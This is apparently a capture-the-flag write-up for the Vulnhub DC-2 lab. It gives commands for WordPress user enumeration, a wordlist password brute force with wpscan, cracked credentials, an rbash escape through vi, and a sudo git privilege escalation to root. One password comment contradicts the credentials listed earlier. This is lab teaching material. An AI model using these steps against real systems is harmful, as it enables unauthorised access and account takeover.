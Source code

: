 <h1>DC-2 Write-up</h1>

**NMAP** : [Click Me](https://github.com/Vanshal/Vulnhub-Writeups/blob/master/DC-2/nmap.txt)

Add 192.168.56.47   dc-2 to your host file to access WEB 

**FLAG** : http://dc-2/index.php/flag/


using cewl because as the flag hint says normal wordlist will not work

```cewl -d 5 -w wordlist http://dc-2/```


<h3>Password Attack (WPSCAN)</h3>

First Enumerate Users with the following command : 
```
wpscan --url http://dc-2/ -e u
```
Now the attack ;)

```wpscan --url http://dc-2/ -U tom,jerry -P wordlist```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-2/images/WPbrute.png)

 Username: jerry, Password: adipiscing   
 Username: tom, Password: parturient     

**Login to ssh using tom creds :**

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-2/images/rbashescape.png)


<h3>Rbash Escape </h3>

```
vi 
:set shell=/bin/sh
:shell

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

<h2>Priv Esc</h2>

```
su - jerry   # PASS : parturient (Found in Password attack of wordpress)
sudo -l 
```

[GIT SUDO ESCALATION](https://gtfobins.github.io/gtfobins/git/#sudo)

```
PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
sudo git -p help config
!/bin/sh
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-2/images/privesc%20.png)

